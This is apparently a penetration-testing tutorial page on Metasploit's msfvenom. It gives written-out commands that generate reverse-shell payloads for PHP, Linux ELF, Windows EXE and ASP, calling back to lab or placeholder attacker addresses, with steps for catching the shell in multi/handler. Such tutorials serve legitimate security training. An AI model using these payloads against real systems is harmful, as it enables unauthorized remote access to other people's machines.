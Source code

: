 You can either generate stand-alone payloads or get a usable raw format. The `msfvenom --list` formats command can be used to list supported output formats.

**Encoders**[**​**](broken-reference)

They encode the payload (do not aim to bypass antivirus). The usage is `-e` parameter and the output parameter `-f`. Example:

```
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.186.44 -f raw -e php/base64
```

**Handlers**[**​**](broken-reference)

When using an exploit module, this part is automatically handled by the exploit module.

```
msfvenom -p php/reverse_php LHOST=10.0.2.19 LPORT=7777 -f raw > reverse_shell.php
```

Please note: The output PHP file will miss the starting PHP tag commented and the end tag (?>), as seen below. `/*<?php /**/` The reverse\_shell.php file should be edited to convert it into a working PHP file. Comments removed from the beginning of the file. `<?php` End tag added `?>`

We will use Multi Handler to receive the incoming connection. The module can be used with the `use exploit/multi/handler` command. To use the module, we will need to set the payload value (`php/reverse_php` in this case), the LHOST, and LPORT values. Also, it is important to select the payload generated.

```
set payload linux/x86/meterpreter/reverse_tcp
```

Once everything is set, we will `run` the handler and wait for the incoming connection. When the reverse shell is triggered, the connection will be received by multi/handler and provide us with a shell.

**Other payloads**[**​**](broken-reference)

Examples:

* Linux Executable and Linkable Format (elf)

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf
```

* Windows

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe
```

* PHP

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php
```

* ASP

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp
```
